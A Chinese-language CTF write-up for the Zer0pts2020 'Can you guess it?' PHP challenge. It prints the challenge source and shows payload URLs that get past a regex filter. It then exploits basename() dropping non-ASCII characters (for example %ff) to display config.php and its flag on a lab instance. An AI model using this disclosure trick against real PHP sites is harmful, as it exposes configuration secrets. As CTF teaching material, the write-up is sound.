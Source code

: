 ```yaml
---
layout: mypost
title: "[Zer0pts2020]Can you guess it?"
categories: [ctf_wp]
---
```


1.ctf之国庆专辑哈哈哈哈哈，这道题一开始进去的界面是一个框框，一开始以为是一个sql注入，但点击source竟然给了源码，二话不说开始审计吧

```
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

2.下面具体说一下这段代码都干了什么

```
1.源码一开始有个正则匹配，主要就是不能检测到config.php/（这个/属于可有可没有，因为正则表达式后面有一个*，这个代表的意思是0个到无穷个，也就是说有无穷个/也是可以的），这个倒是好绕过，后面随便加个东西就行
2.然后检测是否用source这个get传参，如果有的话就截取最后的这个文件
tip：这里大家可以先了解一下$_SERVER['PHP_SELF']东西还有basename（）这个函数，简单解释一下就是$_SERVER['PHP_SELF']这个会返回与网站根目录相对的路径，然后basename（）这个函数的话会输出$_SERVER['PHP_SELF']这个路径的最末尾的文件
3.$secret变量的话，就是获取了一个随机的数字，而且数字很复杂，很大，没有规律，这个用到的是和操作系统一样获取随机数的方法，所以这这一步肯定是安全的，然后就是guess（也就是页面中那个框框），它让我们输入一个和这个$secret变量一模一样的数字，而且用到了hash_equals这个东西来比较，不是平时用的===（这个我知道是为了防止时序攻击，所以这个是真的安全，若有漏洞就是0day，所以这个肯定也是没法绕过的）
```

3.okok大概解释了一遍这个源码的流程，总而言之，肯定不能靠下面那个guess去获得flag，因为这样写真的是最安全的写法，但大家有没有想过，如果这个题的预期解是靠guess的话，那上面为什么要大费周章的去写那样的代码呢，所以这个突破点肯定是上面的那些代码，然后再仔细分析一遍

4.这个一开始进去的页面应该是一个index.php,然后经过 highlight\_file(basename($\_SERVER\['PHP\_SELF'\]));这个之后会获得index.php，然后会将index.php的源码显示出来，那我们可不可以把config.php里面的东西给展示一下呢？然后我也是胡乱测试一下啊，发现一个神奇的事情，就是在访问/index.php/config.php的时候，服务器也会默认我们访问的是index.php，所以source这个参数还是可以用的，然后搭了一个本地靶场，测试的时候发现虽然服务器也会默认我们访问的是index.php，但是SERVER\['PHP\_SELF'\]这个东西竟然还是/index.php/config.php，这就找到突破点了，应该就是这两个地方起冲突了，导致我们有机会，那么我就写了第一个payload

```
http://2db62442-ccea-4f10-afca-1fcc59c0b854.node4.buuoj.cn:81/index.php/config.php/?source
```

然后它就提示

![](image-20231003222658253-1024x130.png)

这很正常啊，我理解，因为这里有个正则欸，检测到了config.php/，所以肯定不行，然后现在问题就很明显了，要找到一个字符，既能绕过正则匹配（这个正则就是个纸老虎，只要不以config.php/结尾就行），也能让这个basename（）函数正常的匹配到config.php

5.比如下面这个payload，肯定可以绕过正则，但是报错了，这也很正常，因为basename（）匹配到的是1

```
http://2db62442-ccea-4f10-afca-1fcc59c0b854.node4.buuoj.cn:81/index.php/config.php/1?source
```

![](image-20231003223141761-1024x128.png)

然后就去搜这个basename有没有啥办法可以绕过啊，结果搜到了php官方其实已经给过这个bug

![](image-20231003223450097-1024x537.png)

```
With the default locale setting "C", basename() drops non-ASCII-chars at the beginning of a filename.
在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符
```

然后github也有师傅给出了找这个字符的脚本

```
<?php
highlight_file(__FILE__);
$filename = 'index.php';
for($i=0; $i<255; $i++){
    $filename = $filename.'/'.chr($i);
    if(basename($filename) === "index.php"){
        echo $i.'<br>';
    }
    $filename = 'index.php';
}
?>
```

![](屏幕截图-2023-10-03-223738-1024x509.png)

6.然后就很简单了，随便加一个里面的字符就行（ascii值为47、128-255的字符均可以绕过basename()），下面是最终payload

```
http://2db62442-ccea-4f10-afca-1fcc59c0b854.node4.buuoj.cn:81/index.php/config.php/%ff?source
```

![](image-20231003223936555-1024x94.png)